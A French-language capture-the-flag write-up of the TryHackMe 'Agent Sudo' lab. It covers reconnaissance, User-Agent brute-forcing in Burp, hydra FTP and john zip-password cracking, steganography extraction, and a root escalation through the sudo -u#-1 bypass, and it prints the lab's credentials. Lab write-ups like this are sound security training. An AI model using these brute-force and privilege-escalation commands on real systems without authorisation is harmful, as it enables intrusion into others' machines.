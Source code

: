# 🤖 Agent Sudo

{% embed url="https://tryhackme.com/room/agentsudoctf" %}

## Reconnaissance

{% code title="création répertoire de travail" %}
```
mkdir agentsudo && cd agentsudo
```
{% endcode %}

{% code title="IP de la cible" %}
```
export IP=10.10.142.227
```
{% endcode %}

```
nmap -sC -sV -oN nmap-report.txt $IP
```

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

* un serveur FTP (21)
* un serveur openssh (22)
* un site web (80) sous Apache

### Exploration du site Web&#x20;

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

* le **user-agent** permet d'accéder au site
* le user-agent doit contenir le 'codename'
* **Agent R : '**R' est un codename ? => à tester !
* code source de la page : RAS

#### Directory Brute-force&#x20;

{% code overflow="wrap" %}
```
gobuster dir -u $IP -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```
{% endcode %}

* Ne donne rien d'intéressant cette fois :)

### Burpsuite

* Utilisons Burpsuite pour spoofer le user-agent
  * on intercepte [http://10.10.142.227/](http://10.10.142.227/) dans le proxy
  * on envoie la requête dans le repeater
  * on teste dans le repeater cette histoire d'**agent R** à la place du user-agent habituel...

<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

* On tombe sur **la même page** mais cette fois on nous informe qu'il y a **25 employés** (agents ?)
* pas d'info dans le code source
* Testons d'autres user-agent en supposant que ce sont des lettres de l'Alphabet (25 + agent R = 26 Agents?)
  * on envoie la requête dans l'intruder pour brute-forcer le user-agent

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

on se fait un payload rapidement comme ceci:

```
echo {A..Z} | tr " " "\n" > alphabet.txt 
```

et on le charge dans Burp puis `start attack`

<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

On note une redirection 302 pour le `user-agent C`

<figure><img src=".gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

:warning: Il y a une info à savoir : **Burp ne suit pas les redirections par défaut** !\
il va donc falloir rejouer la requête dans le repeater mais en autorisant la redirection 302 cette fois...

<figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

renvoyer la requête avec le `user-agent C` et cliquer sur le bouton `Follow redirection` qui apparaît ;)\
NB: on peut aussi modifier ce comportement dans les settings du repeater

<figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Yes !&#x20;

<figure><img src=".gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

* l'agent C = **chris** ?
* le mot de passe de l'agent C est pourri :)
  * on a un user et un mdp facile à trouver => **Brute force !**

## **Exploitation**

### **Brute Force du FTP**

* moins de risque de Fail2ban avec le FTP on commence par là

```
hydra -l chris -P /usr/share/wordlists/rockyou.txt $IP ftp    
```

<figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

* le mdp de chris est **`crystal`** (et donc bien pourri )
* on se connecte avec **chris/crystal**

```
ftp -A chris@$IP
```

<figure><img src=".gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

{% code title="on récupère tous les fichier" %}
```
mget *
```
{% endcode %}

<figure><img src=".gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

### Exploitation des Fichiers

* `cat To_agentJ.txt`

<figure><img src=".gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

* l'`Agent J` a une véritable photo dans son répertoire perso
* le **login/mdp** de l'`agent J`est a l'intérieur d'une fausse photo



* `binwalk cute-alien.jpg` : c'est bien une photo visiblement
* `binwalk cutie.png :` il y a un Zip caché dans l'image qui contient un fichier `To_agentR.txt`

<figure><img src=".gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

{% code title="extraction du zip" %}
```
binwalk -e cutie.png
```
{% endcode %}

<figure><img src=".gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

```
cd _cutie.png.extracted && ls
```

<figure><img src=".gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

on a bien récupéré un fichier zip : `8702.zip`

{% code title="7zip car unzip échoue" %}
```
7z e 8702.zip
```
{% endcode %}

<figure><img src=".gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

* dezippage impossible car le zip est  protégé par mot de passe

```
zip2john 8702.zip > 8702.hash
```

```
john --wordlist=/usr/share/wordlists/rockyou.txt 8702.hash
```

<figure><img src=".gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

* le mdp du zip est `alien` donc on dezip avec 7z à nouveau et on peut enfin lire le message `To_agentR.txt`

<figure><img src=".gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

* on a un code `QXJlYTUx` qui pourrait être un mot de passe ?
* on a une photo cute-alien.jpg qu'on a pas encore utilisé/exploité
* on sait qu'une photo contient le login/mdp de l'agent J => cute-alien.jpg ?

On regarde de plus près `cute-alien.jpg`

<figure><img src=".gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

* visuellement : RAS
* `exiftool cute-alien.jpg` : RAS

```
steghide info cute-alien.jpg  
```

<figure><img src=".gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

* c'est louche ! :) Essayons d'extraire avec `steghide extract`

```
steghide extract -sf cute-alien.jpg 
```

* Il faut une passphrase
* une passphrase vide ne fonctionne pas (qui ne tente rien ...)
* la passphrase `QXJlYTUx` ne fonctionne pas non plus .... je suis bloqué :(
  * je tente 'hash-identifier' sur la chaine  mais il ne connait pas ce hash...
  * plus qu'une solution : ChatGPT :)

<figure><img src=".gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

Merci chatGPT !!! :wink:

Pour info pour décoder "soi-même":

```
echo 'QXJlYTUx' | base64 -d
```

&#x20;\
on retente steghide avec ce mdp 'Area51'

```
steghide extract -sf cute-alien.jpg 
```

YESSS !

<figure><img src=".gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

```
cat message.txt
```

<figure><img src=".gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

* l'agent J s'appelle **`james`**
* son mdp est **`hackerrules!`**

### **Exploitation SSH**

```
ssh james@$IP
```

<figure><img src=".gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

* on récupère le flag de james&#x20;
* on récupère (via un `'scp'` des familles) la 'vraie' photo de Roswell ( Roswell alien autopsy)

## Escalade des privilèges

pas la partie la plus compliquée de ce CTF

```
sudo -l
```

<figure><img src=".gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

En cherchant sur Google la permission&#x20;

```py
(ALL, !root) /bin/bash
```

&#x20;on tombe sur cet exploit\
[https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)

et on comprends qu'on va pouvoir exécuter bash en root en contournant la règle en place avec ce simple code

```
sudo -u#-1 /bin/bash
```

<figure><img src=".gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

et voilà :v:
